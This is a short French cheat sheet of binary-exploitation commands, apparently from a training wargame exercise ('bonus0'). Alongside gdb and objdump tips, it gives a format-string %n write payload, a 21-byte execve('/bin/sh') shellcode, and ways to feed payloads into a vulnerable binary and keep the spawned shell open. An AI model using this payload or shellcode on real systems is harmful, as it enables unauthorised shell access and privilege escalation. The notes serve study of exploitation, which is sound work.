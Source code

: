 cat exploit.txt
x/1x <address> = permet de voit ce qu'on ecrit dans l'addresse
x/32xw $esp = permet de check toute une zone de mémoire

objdump -R <executable> = permet de voir les function

python -c 'print "\x38\x98\x04\x08" + "%134514034x" + "%n"' > /var/crash/test.txt = permet d'écrire ton payload

cat <fichier> - | <executable> = permet de maintenir le terminal ouvert aprés l'exploit

gdb <Exec> = permet de lancer l'exec avec gdb

    dans gdb :
    b *<nom de la fonction>+<ligne> = permet de breakpoint
    run < <nom du fichier> = permet de send un fichier lors du run de l exec dans gdb

Dans le cas ou on veut envoyer le contenu d'un fichier en tant qu'argument de l'executable dans gdb on peut faire :

    Hors gdb :
        <nomdevariable>=$(</var/crash/test.txt)
        gdb --args <executable> $<nomdevariable>

dmesg = cool ça donne ou ça a crash




esp = premier arg
esp+4 = second
quand on break sur une instrction elle n'est pas encore call

r < <(cat /var/crash/first.txt; sleep .50; cat /var/crash/test2.txt)
permet d'envoyer plusieurs fichier sur plusieurs read/user entry dans gdb

r < $(python -c 'print "A"*40) AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH
permet d'envoyer des arguments via GDB

(python -c ...; python -c ...; cat) | ./bonus0
permet d'envoyer plusieurs fichier sur plusieurs read/user entry dans bash

Le shell code (21 de taille) : "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

x/s *((char **)environ+1) --> permet de voir les var d'environnement (remplacer +1 ... +2, jusqu'a trouvé var voulu)
x/20s *((char **)environ) --> voir plein de var, augmenter 20 pour en voir plus
